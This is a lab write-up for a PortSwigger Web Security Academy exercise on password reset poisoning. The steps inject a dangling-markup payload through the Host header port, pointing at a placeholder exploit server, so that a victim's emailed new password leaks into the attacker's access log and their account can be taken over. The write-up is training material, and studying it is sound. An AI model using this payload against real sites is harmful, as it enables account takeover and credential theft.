

# Password reset poisoning via dangling markup

## Description

[This lab](https://portswigger.net/web-security/host-header/exploiting/password-reset-poisoning/lab-host-header-password-reset-poisoning-via-dangling-markup) is vulnerable to password reset poisoning via dangling markup.

## Reproduction

1. Go to the login page and request a password reset for your own account.
2. Go to the exploit server and open the email client to find the password reset email. Observe that the link in the email simply points to the generic login page and the URL does not contain a `password reset` token. Instead, a new password is sent directly in the email body text.
3. In the proxy history, study the response to the `GET /email` request. Observe that the HTML content for your email is written to a string, but this is being sanitised using the `DOMPurify` library before it is rendered by the browser.
4. In the email client, notice that you have the option to view each email as raw HTML instead. Unlike the rendered version of the email, this does not appear to be sanitised in any way.
5. Send the `POST /forgot-password` request to Burp Repeater. Observe that tampering with the domain name in the Host header results in a server error. However, you are able to add an arbitrary, non-numeric port to the `Host` header and still reach the site as normal. Sending this request will still trigger a password reset email:

```text
Host: lab-id.web-security-academy.net:arbitraryport
```
    
6. In the email client, check the raw version of your emails. Notice that your injected port is reflected inside a link as an unescaped, single-quoted string. This is later followed by the new password.
7. Send the `POST /forgot-password` request again, but this time use the port to break out of the string and inject a dangling-markup payload pointing to your exploit server:

```text
Host: lab-id.web-security-academy.net:'<a href="//YOUR-EXPLOIT-SERVER-ID.exploit-server.net/?
```
    
8. Check the email client. You should have received a new email in which most of the content is missing. Go to the exploit server and check the access log. Notice that there is an entry for a request that begins `GET /?/login'>[…]`, which contains the rest of the email body, including the new password.
9. In Burp Repeater, send the request one last time, but change the `username` parameter to `carlos`. Refresh the access log and obtain Carlos's new password from the corresponding log entry.
10. Log in as `carlos` using this new password to solve the lab.

## PoC

[](https://kraut.zone/w/rMtPVEYkp6jbEcgtVbgsPy)

## Exploitability

An attacker will need to abuse the vulnerability and log in to Carlos's account. 
Any emails sent to `wiener:peter` can be read via the email client on the exploit server.
